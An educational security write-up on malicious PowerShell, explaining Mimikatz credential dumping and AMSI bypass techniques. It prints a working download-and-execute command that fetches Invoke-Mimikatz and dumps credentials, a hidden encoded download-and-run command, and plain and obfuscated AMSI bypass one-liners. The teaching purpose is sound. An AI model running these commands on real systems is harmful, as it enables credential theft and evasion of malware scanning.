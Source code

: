 
# Malicious Powershell 
In this series, I'll discuss why organizations should care about malicious Powershell activity, how the attackers use Powershell to steal credential(e.g.,Mimikatz) and how to prevent and detect malicious Powershell activity.

## Why do attackers love Powershell ?
PowerShell, a powerful Windows scripting language, is used by IT professionals and adversaries alike. Attackers favor PowerShell for several reasons:

- It's build-in command line tool.
- It can download and execute code from another system.
- It provides unprecedented access on Windows computers
- It’s enabled on most computers, as system administrators use PowerShell to automate various tasks (e.g,. shut down your machines automatically at 12 a.m.—do this via task scheduler)
- Its malicious use is often not stopped or detected by traditional endpoint defenses, as files and commands are not written to disk. This means fewer artifacts to recover for forensic analysis.

Several offensive tools exist that are built on or use PowerShell, including the following:
- [Empire](https://github.com/EmpireProject/Empire)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Metasploit](https://www.rapid7.com/db/modules/post/windows/manage/exec_powershell/)
- [Invoke-Mimikatz](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)

Eliminating Powershell isn't ideal due to the benifits it offers IT administrators. Instead, we need to learn how to secure Powershell.

Let's take a deep dive into Powershell usage to dump password with Mimikatz.

## What is Mimikatz, and how does it work?
Mimikatz is a post-exploitation tool used to dump passwords, hashes, and Kerberos tickets from memory. Attackers use Mimikatz to steal credentials and escalate their privileges; similarly, pen testers use Mimikatz to retrieve plaintext versions of passwords from hashes stored in memory (these exist to provide Windows single sign-on (SSO) functionality). It enables many attacks that use credentials such as pass the hash, pass the ticket, golden Kerberos ticket, and so on. 

In order to facilitate SSO, whenever a user authenticates, a variety of credentials are generated and stored in LSASS memory. The credentials stored in LSASS memory can be NTLM password hashes, Kerberos tickets, and even clear-text passwords when using the Windows feature WDigest. WDigest, introduced with Windows XP, is an authentication protocol used for LDAP and web-based authentication. Client machines that seek to authenticate must demonstrate their knowledge of secret keys. This improves on earlier versions of HTTP authentication where the user provides a password that is not encrypted when sent to authenticating server. As WDigest stores cleartext passwords in memory, if an attacker has control over that endpoint, they can run Mimikatz to steal hashes and clear text passwords.

Mimikatz was most famously used in the Petya and NotPetya attacks that affected thousands of computers worldwide between 2016 and 2017. The NotPetya virus, similar to Petya, infects a target computer, encrypts the data on the computers and displays a message for the victim explaining how to send bitcoin in order to retrieve the encrypted data.

Let's look at a malicious PowerShell command for fileless network access and remote content execution. This command passes the contents of the file hosted on the below URL to PowerShell via the commandline, and executes it "in memory" on the target system:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
    
where:
- IEX or Invoke-Expression cmdlet: executes the command provided on the local machine.
- New-Object cmdlet: creates an instance of a .NET Framework
- downloadstring: download the contents from Github into a memory buffer, which IEX will execute
- DumpCreds parameter: instructs Mimikatz to dump credentials out of LSASS.  


---

      powershell.exe -Noprofile -NonI -W Hidden -Exec Bypass -encodedcommand  SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cHM6Ly93d3cuZmlyZWV5ZS5jb20vY29tcGFueS9qb2JzLmh0bWwnKSk=

The following is a quick explanation of the arguments:
- -NoProfile – indicates that the current user’s profile setup script should not be executed when the PowerShell engine starts.
- -NonI – shorthand for -NonInteractive, meaning an interactive prompt to the user will not be presented.
- -W Hidden – shorthand for “-WindowStyle Hidden”, which indicates that the PowerShell session window should be started in a hidden manner.
- -Exec Bypass – shorthand for “-ExecutionPolicy Bypass”, which disables the execution policy for the current PowerShell session (default disallows execution). It should be noted that the Execution Policy isn’t meant to be a security boundary.
- -encodedcommand – indicates the following chunk of text is a base64 encoded command.

--- 
Check version of powershell 
        
        $PSVersionTable

| Name                           | Value                      |
|:------------------------------:|:--------------------------:|                         
| PSVersion                      | 5.1.19041.1682             |
| PSEdition                      | Desktop                    |
| PSCompatibleVersions           | {1.0, 2.0, 3.0, 4.0...}    |
| BuildVersion                   | 10.0.19041.1682            |
| CLRVersion                     | 4.0.30319.42000            |
| WSManStackVersion              | 3.0                        |
| PSRemotingProtocolVersion      |2.3                         |
| SerializationVersion           | 1.1.0.1                    |  

# AMSI bypass methods
## How AMSI work.
When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware.
- AmsiScanBuffer()
- AmsiScanString()

![AMSI work](https://pentestlaboratories.files.wordpress.com/2021/05/amsi-powershell-flowchart-1.png?w=1024)

1. PowerShell Downgrade
        
        powershell -version 2
2. Base64 Encode 
- original AMSI bypass

        [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
- Base64 Encode
        
                            [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
